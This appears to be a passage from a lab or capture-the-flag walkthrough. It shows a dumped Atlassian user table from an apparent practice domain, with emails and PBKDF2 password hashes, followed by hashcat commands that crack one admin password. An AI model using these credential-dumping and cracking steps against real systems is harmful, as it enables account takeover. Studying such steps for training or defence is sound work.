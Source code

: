 ```bash
	   id   |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
	--------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
	 229377 | admin          | admin           | T      | 2022-09-09 21:10:26.365 | 2022-09-09 21:10:26.365 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | d9da2333-8bd1-4a8e-82d3-0613aead5d22 |        98305 | {PKCS5S2}3vfgC35A7Gnrxlzbvp32yM8zXvdE8U8bxS9bkP+3aS3rnSJxz4bJ6wqtE8d95ejA
	 229378 | trouble        | trouble         | T      | 2022-09-09 21:13:04.598 | 2022-09-09 21:13:04.598 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 84bcf8cf-618d-4bec-b5c0-1b4a21fbcd6b |        98305 | {PKCS5S2}tnbti4h38VDOh0xPrBHr7JBYjev7wws+ETHL1YyjSpIWVUz+66zXwDvbBJkJz342
	 229379 | happiness      | happiness       | T      | 2022-09-09 21:13:35.831 | 2022-09-09 21:13:35.831 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | 8b9c660a-cfee-48ac-8214-737df1786dd2 |        98305 | {PKCS5S2}1hCLEv054BGYa9QkCAZKSmotKb4d8WbuDc/gGxHngs0cL3+fJ4OmCt6+fUM6HYlc
	 229380 | hr_admin       | hr_admin        | T      | 2022-09-09 21:13:58.548 | 2022-09-09 21:13:58.548 | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 0d31acb5-ba51-4725-ae64-ae7f5d51becc |        98305 | {PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R
	 229381 | database_admin | database_admin  | T      | 2022-09-09 21:14:22.459 | 2022-09-09 21:14:22.459 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 93d97033-f7d4-4a3c-80f4-55cc5faf03c7 |        98305 | {PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv
	 229382 | rdp_admin      | rdp_admin       | T      | 2022-09-09 21:14:46.153 | 2022-09-09 21:14:46.153 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | a8f8d9b5-dfcb-480b-b461-8efce939294c |        98305 | {PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP
	(6 rows)
```

- Dump hashes in `hashes.txt` file
```bash
{PKCS5S2}3vfgC35A7Gnrxlzbvp32yM8zXvdE8U8bxS9bkP+3aS3rnSJxz4bJ6wqtE8d95ejA # - alice admin
{PKCS5S2}tnbti4h38VDOh0xPrBHr7JBYjev7wws+ETHL1YyjSpIWVUz+66zXwDvbBJkJz342 # - trouble
{PKCS5S2}1hCLEv054BGYa9QkCAZKSmotKb4d8WbuDc/gGxHngs0cL3+fJ4OmCt6+fUM6HYlc # - happiness
{PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R # - hr admin
{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv # - database admin account
{PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP # - rdp admin
```
- Crack admin's hash
```bash
# Get hash type
hashcat -h | grep -i "Atlassian"
	12001 | Atlassian (PBKDF2-HMAC-SHA1)                               | Framework

# Crack
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
	{PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R:Welcome1234 # - hr admin
```